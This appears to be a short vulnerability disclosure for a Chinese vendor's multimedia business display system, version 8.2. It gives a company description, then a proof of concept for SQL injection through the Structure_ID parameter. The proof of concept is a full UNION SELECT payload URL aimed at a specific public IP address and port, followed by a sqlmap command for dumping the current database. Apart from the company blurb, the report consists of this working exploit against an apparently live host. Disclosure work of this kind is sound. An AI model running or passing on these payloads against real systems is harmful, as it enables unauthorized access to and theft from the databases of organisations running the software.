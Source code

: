 Beijing Shenzhou Shihan Technology Co., Ltd. was established in 2010 with a registered capital of 50 million yuan. Its headquarters is located in the core area of Haidian, Beijing. It is a high-tech enterprise in Beijing and a demonstration enterprise for independent innovation in Zhongguancun. It has 41 patents, including national invention patents, 131 software copyrights, and has passed various qualification certifications such as ISO 09001 and ISO 14001. Shenzhou Shihan has been deeply involved in the field of information visualization for many years. The company has carefully laid out in multiple fields such as smart healthcare, smart government, smart education, and smart multimedia, providing multimedia digital services to major hospitals, government service centers, campuses, government enterprises, and shopping malls in China. Its application products are currently among the top brands.
There is a front-end SQL injection vulnerability in the multimedia integrated business display system of Beijing Shenzhou Shihan Technology Co., Ltd., which allows attackers to obtain sensitive information.

official：http://www.china-shine.com.cn/

version:8.2

 Vulnerability Path  ：/admin/system/structure/getdirectorydata/web/baseinfo/companyManage

See the login page.

poc：
http://114.242.229.140:32769/admin/system/structure/getdirectorydata/web/baseinfo/companyManage?Structure_ID=0' UNION ALL SELECT NULL,NULL,CONCAT(0x717a786271,0x5663654b7044747a657a496e566d7a7949596f75774561784571467174494a5257744b58446a4d53,0x71716b7071),NULL,NULL-- -
sqlmap -r /Users/yuelingfeng/.knife/114.242.229.140.0709-023638.req --risk=3 --level=3 --dbms=mysql --current-db



http://114.242.229.140:32769/

<img width="1464" height="173" alt="image" src="https://github.com/user-attachments/assets/80ef3a12-453e-4f7c-bf81-762921011ea8" />
